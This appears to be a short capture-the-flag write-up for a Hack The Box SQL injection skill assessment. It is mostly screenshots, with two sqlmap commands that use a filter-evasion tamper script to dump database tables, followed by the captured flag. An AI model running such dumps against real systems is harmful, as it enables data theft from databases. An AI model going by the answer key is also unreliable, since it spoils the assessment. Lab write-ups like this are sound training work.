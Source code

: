 # Skill Assessment



<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --tamper=between --dump --batch
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req2.txt --tamper=between -T final_flag --dump --batch
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

HTB{n07\_50\_h4rd\_r16h7?!}
